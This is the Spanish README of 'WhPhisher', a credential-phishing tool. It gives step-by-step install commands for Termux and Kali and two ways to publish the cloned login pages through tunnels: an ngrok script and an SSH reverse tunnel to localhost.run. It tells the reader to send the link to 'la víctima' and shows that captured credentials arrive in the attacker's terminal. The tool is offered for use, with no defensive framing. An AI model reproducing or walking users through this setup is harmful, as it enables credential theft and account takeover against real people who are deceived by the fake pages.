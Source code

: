 # WhPhisher

La mejor herramienta para hacer phishing con las páginas más famosas actualizadas.


# Probado en:

Termux, Kali Linux y debian


# Pasos

Para qué hayan menos probabilidades de que falle esta herramienta, se aconseja instalar la última versión de Termux, y Termux API.


# -- Como instalar --


`termux-setup-storage`

`pkg install proot -y`

`pkg install python3 -y`

`pkg install php -y`

`pkg install git -y`

`pkg install wget -y`

`pkg install ruby -y`

`pkg install unzip -y`

`pkg install curl`

`pkg update & apt upgrade`

`git clone https://github.com/WhBeatZ/WhPhisher`

`cd WhPhisher`

`python3 WhPhisher.py`

[![Virtual-Box-VM-Dib-Vpuj-JG9.png](https://i.postimg.cc/K86wfbyL/Virtual-Box-VM-Dib-Vpuj-JG9.png)](https://postimg.cc/XrgsNTq7)

Elegir la página y esperar a que inicie el túneling.

[![Virtual-Box-VM-pqnlsb1ey-B.png](https://i.postimg.cc/gJJMyjfj/Virtual-Box-VM-pqnlsb1ey-B.png)](https://postimg.cc/mcvNBLZW)

# Solucion si no se genera el link o no funciona (2 soluciones)

# - - - Solucion 1 - - -


`Abrir nueva sesion`

`cd NgrokWh`

`chmod +x ngrokwh.sh`

`./ngrokwh.sh`

`y`

`ngrok http 8080`

Compartir el link que nos generó a la víctima :D

Ahora volvemos a la sesion principal, y si alguien puso sus datos, nos saldrán ahí :D 

-Imagenes de demstración:

[![Screenshot-20220116-091839.png](https://i.postimg.cc/HW92dXc7/Screenshot-20220116-091839.png)](https://postimg.cc/3WWpZyZK)


[![Screenshot-20220116-091856.png](https://i.postimg.cc/kGKQ8yVm/Screenshot-20220116-091856.png)](https://postimg.cc/V0s0PnBG)


[![Screenshot-20220116-091939.png](https://i.postimg.cc/KvKRJy2v/Screenshot-20220116-091939.png)](https://postimg.cc/tYjq4wJL)




# - - - Solucion 2 - - -

Pasos:

`Abrimos nueva sesión`

`cd`

`pkg install openssh -y`

`ssh -R 80:localhost:8080 nokey@localhost.run`

Compartir el link que se generó :D

# Como debería de quedar
- Lo verde tapa información personal 
- La flecha amarilla apunta al link que hay que compartir

[![Pics-Art-12-28-12-04-12.jpg](https://i.postimg.cc/Dw0djMxM/Pics-Art-12-28-12-04-12.jpg)](https://postimg.cc/yDqZWv4m)

# Resultado

- El link que le enviaste a la victima: 

[![chrome-NQpwa-Yi-Wxc.png](https://i.postimg.cc/mrxzN5JH/chrome-NQpwa-Yi-Wxc.png)](https://postimg.cc/k2cg7fnJ)

Cuando la víctima pone sus credenciales, nos llegan en la terminal:

[![Virtual-Box-VM-t1m8-G0-J0-MQ.png](https://i.postimg.cc/wjj0Y7jV/Virtual-Box-VM-t1m8-G0-J0-MQ.png)](https://postimg.cc/4mjzz4t7)


